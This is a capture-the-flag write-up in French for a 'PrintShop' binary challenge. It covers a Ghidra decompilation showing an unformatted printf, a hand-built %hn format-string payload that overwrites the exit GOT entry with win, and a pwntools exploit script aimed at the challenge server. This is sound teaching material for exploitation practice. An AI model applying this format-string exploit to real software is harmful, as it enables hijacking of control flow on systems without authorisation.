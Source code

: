 # PrintShop

## Ghidra

`main`

```c
void main(void)

{
  long in_FS_OFFSET;
  char local_78 [104];
  undefined8 local_10;
  
  local_10 = *(undefined8 *)(in_FS_OFFSET + 0x28);
  puts("\nWelcome to the Print Shop!");
  printf("\nWhat would you like to print? >> ");
  fgets(local_78,100,stdin);
  puts("\nThank you for your buisness!\n");
  printf(local_78);
                    /* WARNING: Subroutine does not return */
  exit(0);
}
```

`win`

```c
void win(void)

{
  int iVar1;
  FILE *__stream;
  char local_11;
  
  __stream = fopen("flag.txt","r");
  if (__stream == (FILE *)0x0) {
    puts("Flag is missing, contact an organizer.");
    fflush(stdout);
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  iVar1 = fgetc(__stream);
  local_11 = (char)iVar1;
  while (local_11 != -1) {
    putchar((int)local_11);
    fflush(stdout);
    iVar1 = fgetc(__stream);
    local_11 = (char)iVar1;
  }
  fclose(__stream);
  return;
}
```

- le printf **n'est pas formaté**
- main est une procédure terminant sur **exit**
- nous devons appeler **win** 

But: hijack le pointeur sur exit vers l'addresse de win via une format string

## A la main

```
┌─[night@night-20b7s2ex01]─[~/patriot]
└──╼ 8 fichiers, 40Kb)─$ python -c 'print("AAAA"+"%x."*5)' | ./printshop 

Welcome to the Print Shop!

What would you like to print? >> 
Thank you for your buisness!

AAAAed63f643.0.ed504664.1.0.
┌─[night@night-20b7s2ex01]─[~/patriot]
└──╼ 8 fichiers, 40Kb)─$ python -c 'print("AAAA"+"%x."*6)' | ./printshop 

Welcome to the Print Shop!

What would you like to print? >> 
Thank you for your buisness!

AAAA39c3f643.0.39b04664.1.0.41414141.
```
-> on observe ```AAAA=0x41414141``` à  **n=6**

on adapte https://discord.com/channels/938507425819004929/1150099609511792680/1150436328174010560
```
0xdeadbeef = 0xdead (high) "+" 0xbeef (low)

[endian(adresse écriture low) + endian(addresse écriture high = low +2)] %[hexa low à écrire - 8]x%[n contrôlé]$hn%[hexa abs((low-8)-(high-8)) à écrire]x%[n+1] $hn"')
```
(perso je fais **rax2** pour la conversion hexa/int pour low et high-> radare2)

avec **win = à écrire**```000000000040129d <win>:``` 
à la place de **exit = addresse écriture**```00404060 <exit>:``` -> le 0xdeadbeef ici
ce qui donne qqch comme:

```
"\60\x40\x40\x00 \60\x40\x42\x00 %56x %6$hn % 4701x%7$hn"
```
avec : `0x0040` (high win) `0x129d`(low win)
- `rax2 0x0040  -8 = 56`
- `rax2  0x129d   -8-56(addresse en high ) = 4701`

## Avec fmtstr de pwntools

```python
from pwn import *

elf = ELF('./printshop')
context.arch = 'amd64'

p = process(elf.path)
p = remote('chal.pctf.competitivecyber.club',7997 )

p.recvuntil(b' >>')

payload = fmtstr_payload(6, {elf.got.exit: elf.sym.win}, numbwritten=0); print(payload)


p.sendline(payload)

p.interactive()
```

![](./flag.png)

